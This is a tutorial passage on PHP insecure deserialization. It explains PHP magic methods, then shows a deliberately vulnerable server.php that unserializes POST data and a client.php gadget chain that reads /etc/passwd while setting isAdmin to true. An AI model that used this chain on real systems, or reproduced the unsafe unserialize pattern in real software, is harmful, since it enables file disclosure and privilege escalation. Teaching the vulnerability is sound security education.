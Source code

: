 Magic methods generally does not contains vulnerabilities on it's own, but if the user supplied data is configured to execute such methods, an attacker can invoke such methods with a malicious payload to override the workflow of the code. Let's focus on some important magic methods that we need to understand.<br>
- **__construct**
   - The magic method `__construct()` will be triggered and the code inside it will run as soon as an object of the class is instantiated. 
- **__destruct()**
   - The `__destruct()` method is called automatically for each object of the class at the end.
- **__wakeup()**
   - It will be called as soon as a serialized object of the class is deserialized.
- **__toString()**
   - It will be called when an object of a class is treated as a string. Example, if `echo $obj` is performed, the `__toString()` method is called automatically.<br>
You can learn more about [PHP Magic Methods here.](https://www.geeksforgeeks.org/what-are-magic-methods-and-how-to-use-them-in-php/)

Suppose the application also contains a class to read the file content from the provided filename. To do such, it can have some magic methods availble like **__tostring()**.This makes our server.php code as below:
```php
<?php
class ReadFile
{
      public function __tostring()
      {
          return file_get_contents($this->filename);
      }
}
class User
{
    public $username;
    public $isAdmin;

    public function PrintData(){
        if ($this->isAdmin){
            echo $this->username . " is an admin\n";
        }else{
          echo $this->username . " is not an admin\n";
        }
    }
}
$obj = unserialize($_POST['ippsec']);
$obj->PrintData();
?>
```
So using the deserialization vulnerability, we can jump into the **__tostring()** method of ReadFile class since it is defined there. Let's create our client.php file now.
```php
<?php

class ReadFile{
    public function __construct()
    {
        $this->filename = '/etc/passwd';
    }
}
class User
{
    public function __construct()
    {
        $this->username = new ReadFile();
        $this->isAdmin = True;
    }
}
```
